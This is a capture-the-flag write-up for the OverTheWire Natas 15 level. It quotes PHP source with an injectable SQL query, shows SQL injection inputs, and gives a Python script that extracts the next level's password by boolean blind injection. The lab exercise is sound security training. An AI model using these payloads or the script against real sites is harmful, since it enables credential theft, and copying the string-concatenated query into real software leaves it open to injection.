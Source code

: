 # Natas 15 -> 16

```
http://natas15.natas.labs.overthewire.org
```

```
Username: natas15
```

This time we have a form that checks the existence of a user, also the source code:

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? }
```

Let's try again the same sqli from the previous level

```
?username=q" or 1="1
```

Works.  
What about...

```
?username=natas16
```

Yep. ` This user exists.`  
But that's not what we're after. Since we already know that the table `users` has a column `username` and a column `password`, let's try...

```
?username=natas16%22%20AND%20password%20LIKE%20%22%c%&debug=1
```

Great. That prints

```
Executing query: SELECT * from users where username="natas16" AND password LIKE "%c%"
This user exists.
```

So basically we need to *bruteforce* our way into `natas16`.  
Hint: so far the passwords had a length of 32 chars.

```python
#!/usr/bin/env python

import string
import requests

url = 'http://natas15.natas.labs.overthewire.org/'
http_user = 'natas15'
http_pass = ''

bf_passwd = ""
bf_dict = string.ascii_letters + string.digits

while len(bf_passwd) != 32:
    for char in bf_dict:
        r = requests.get(url,
                         params={
                             'username': 'natas16" AND password LIKE "{}%'.format(bf_passwd + char)
                         },
                         auth=(http_user, http_pass))
        if "This user exists." in r.text:
            bf_passwd += char
            if len(bf_passwd) == 32:
                break

print "Password: {}".format(bf_passwd)
```


* php
* mysql_connect
* sqli
